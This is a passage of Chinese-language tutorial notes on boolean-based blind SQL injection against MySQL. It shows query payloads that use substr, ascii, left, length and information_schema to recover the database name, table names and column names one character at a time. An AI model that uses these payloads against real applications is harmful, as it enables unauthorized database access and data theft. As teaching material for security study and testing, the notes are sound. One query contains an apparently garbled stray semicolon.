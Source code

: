     `SELECT * from users WHERE id = 1 and ascii(substr(database(),8,1))`
    
    ###### 求当前数据库名
    
    思路：利用`left` 函数，从左至右截取字符串
    
    截取字符判断字符的`ascii`码，从而确定字符
    
    -- 从左至右截取一个字符
    
    `SELECT * from users WHERE id = 1 and (left(database(),1)='s')`
    
    -- 从左至右截取两个字符
    
    `SELECT * from users WHERE id = 1 and (left(database(),2)='se')`
    
    `SELECT * from users WHERE id = 1 AND (ASCII(SUBSTR(database(),1,1)) = 115)`
    
    `SELECT * from users WHERE id = 1 AND (ASCII(SUBSTR(database(),2,1)) = 101)`
    
    使用`>`，`<` 符号来比较查找，找到一个范围，最后再确定
    
    ###### 求当前数据库存在的表的数量
    
    `SELECT * from users WHERE id = 1 AND `
    
    ``(select count(table_name) from information_schema.`TABLES`; where table_schema = database()) = 4``
    
    ###### 求当前数据库表的表名长度
    
    - length
    
    ``SELECT * from users WHERE id = 1 AND (LENGTH((select table_name from information_schema.`TABLES` where table_schema = database() LIMIT 0,1))) = 6``
    
    - substr
    
    ``SELECT * from users WHERE id = 1 AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),6,1))``
    
    ###### 求表名
    
    ``SELECT * from users WHERE id = 1 AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),1,1)) = 101``
    
    ``SELECT * from users WHERE id = 1 AND ASCII(SUBSTR((select table_name FROM information_schema.`TABLES` where table_schema = database() LIMIT 0,1),2,1)) = 109``
    
    ###### 求指定表中列的数量
    
    ``SELECT * from users WHERE id = 1 AND (select count(column_name) from information_schema.columns where table_name = "users") = 3``
    
    ###### 求指定表中列的长度
    
    ``SELECT * from users WHERE id = 1 AND ASCII(SUBSTR((select column_name from information_schema.columns where table_name = "users" limit 0,1),2,1))``
    
    ###### 求指定表中的列名
    
    ``SELECT * from users WHERE id = 1 AND ASCII(SUBSTR((select column_name from information_schema.columns where table_name = "users" limit 0,1),1,1)) = 105``
    